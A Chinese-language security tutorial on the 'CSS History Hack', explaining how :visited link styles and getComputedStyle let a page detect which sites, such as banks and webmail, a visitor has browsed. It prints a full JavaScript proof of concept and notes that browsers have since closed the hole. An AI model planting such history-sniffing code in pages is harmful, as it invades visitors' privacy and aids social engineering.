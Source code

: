 # CSS History Hack

利用XSS窃取客户隐私

---

## CSS History Hack 介绍

运用一些JavaScript/CSS技巧，黑客能获取用户浏览器的某些历史记录，甚至是在搜索引擎输入的查询字符。该技术最初由[Jeremiah Grossman](http://jeremiahgrossman.blogspot.jp/2006/08/i-know-where-youve-been.html)提出，其原理只是利用了
CSS能定义和控制链接样式的特性。

##Link Style
 
CSS中有四个伪类用来定义链接的样式，分别是：a:link、a:visited、a:active和 a:hover，他们分别表示未访问的、已访问的、激活的和光标悬停
在其上的链接，如下所示：

		a:link {color: #FF0000} 
		a:visited {color: #00FF00}
		a:hover {color: #FF00FF}
		a:active {color: #0000FF}

效果如下图：

![CSS Link Style](img/CSS-1.png)

其中青色的是访问过的网站，红色是未访问过的网站。一般来说，用户每天都会浏览很多网页，这些网页都会被浏览器记录下来，除非用户自己刻意清除，否则历史记录降一直
保存在本地计算机中。倘若攻击者能获取用户浏览器的历史记录或搜索信息，将是一件十分危险的事，攻击者可以在此基础上进一步发起其他攻击，如社会工程学。

##如何获取历史记录

黑客是怎样获取到用户的历史记录呢？这需要用到客户端JavaScript和CSS技术，两种技术结合在一起运用就可以知道某人是否访问过一个任意的URL，这种方式叫做“JavaScript/CSS history hack”。该技术主要利用了[Dom](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model)中的[getComputedStyle()](https://developer.mozilla.org/en/docs/Web/API/window.getComputedStyle)方法来实现。

其原理就是利用CSS能定义访问过的和未访问过的超级链接的样式。由于JavaScript可以读取任何元素的CSS信息，自然能分辨浏览器应用了哪种样式和用户是否访问过该链接。

		<H3>Visited</H3>
		<ul id="visited"></ul>

		<H3>Not Visited</H3>
		<ul id="notvisited"></ul>
		<script type="text/javascript">
		var websites = [
			"http://ha.ckers.org/blog/",
			"http://login.yahoo.com/",
			"http://mail.google.com/",
			"http://mail.yahoo.com/",
			"http://my.yahoo.com/",
			"http://sla.ckers.org/forum/",
			"http://slashdot.org/",
			"http://www.amazon.com/",
			"http://www.aol.com/",
			"http://www.apple.com/",
			"http://www.bankofamerica.com/",
			"http://www.bankone.com/"
		];

		/* Loop through each URL */
		for (var i = 0; i < websites.length; i++) {
			
			/* create the new anchor tag with the appropriate URL information */
			var link = document.createElement("a");
			link.id = "id" + i;
			link.href = websites[i];
			link.innerHTML = websites[i];

			/* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
			document.write('<style>');
			document.write('#id' + i + ":visited {color: #FF0000;}");
			document.write('</style>');
			
			/* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
			document.body.appendChild(link);
			var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
			document.body.removeChild(link);
			
			/* check to see if the link has been visited if the computed color is red */
			if (color == "rgb(255, 0, 0)") { // visited
			
				/* add the link to the visited list */
				var item = document.createElement('li');
				item.appendChild(link);
				document.getElementById('visited').appendChild(item);
				
			} else { // not visited
			
				/* add the link to the not visited list */
				var item = document.createElement('li');
				item.appendChild(link);
				document.getElementById('notvisited').appendChild(item);
				
			} // end visited color check if

		} // end URL loop
		</script>

运行结果如下图：

![CSS hack](img/CSS-2.png)

可以看到通过颜色区分了是否访问过，并且使用JavaScript进行罗列结果。Visited部分罗列的是曾经访问过的网站，Not Visited则是没有访问过的网站列表。


##防范攻击

CSS History Hack的防范属于浏览器安全的范畴，目前各大主流浏览器都已经通过限制getComputedStyle这个API封住了这个漏洞。

##参考

[Privacy and the :visited selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Privacy_and_the_:visited_selector)

[CSS History Hack](http://ha.ckers.org/weird/CSS-history-hack.html)